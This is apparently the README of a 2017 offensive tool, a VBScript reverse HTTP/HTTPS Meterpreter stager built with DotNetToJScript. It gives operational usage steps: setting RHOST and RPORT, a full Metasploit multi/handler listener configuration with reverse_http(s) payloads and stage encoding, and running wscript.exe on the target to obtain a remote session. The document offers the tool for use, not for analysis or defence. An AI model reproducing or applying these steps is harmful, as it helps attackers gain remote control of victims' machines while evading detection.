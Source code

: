 ```
____   ______________  ___________      __      ___.       _____          __                
\   \ /   /\______   \/   _____/  \    /  \ ____\_ |__    /     \   _____/  |_  ___________ 
 \   Y   /  |    |  _/\_____  \\   \/\/   // __ \| __ \  /  \ /  \_/ __ \   __\/ __ \_  __ \
  \     /   |    |   \/        \\        /\  ___/| \_\ \/    Y    \  ___/|  | \  ___/|  | \/
   \___/    |______  /_______  / \__/\  /  \___  >___  /\____|__  /\___  >__|  \___  >__|   
                   \/        \/       \/       \/    \/         \/     \/          \/       
```
### VBScript Reversed HTTP/HTTPS Meterpreter Stager - by Cn33liz 2017
CSharp Meterpreter Stager build by Cn33liz and embedded within VBScript using DotNetToJScript from James Forshaw
https://github.com/tyranid/DotNetToJScript

This Stager is Proxy aware and should run on x86 as well as x64

```
Usage:
Change RHOST, RPORT and UseHTTPS to suit your needs.

Start Msfconsole:
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_https <- When running HTTPS Payload from x64 version of wscript.exe
set PAYLOAD windows/x64/meterpreter/reverse_http <- When running HTTP Payload from x64 version of wscript.exe
set PAYLOAD windows/meterpreter/reverse_https <- When running HTTPS Payload from x86 version of wscript.exe
set PAYLOAD windows/meterpreter/reverse_http <- When running HTTP Payload from x86 version of wscript.exe
set LHOST 0.0.0.0
set LPORT 443
set EnableUnicodeEncoding true
set EnableStageEncoding true
set ExitOnSession false
exploit -j 

Then run: wscript.exe VBSWebMeter.vbs on Target
```
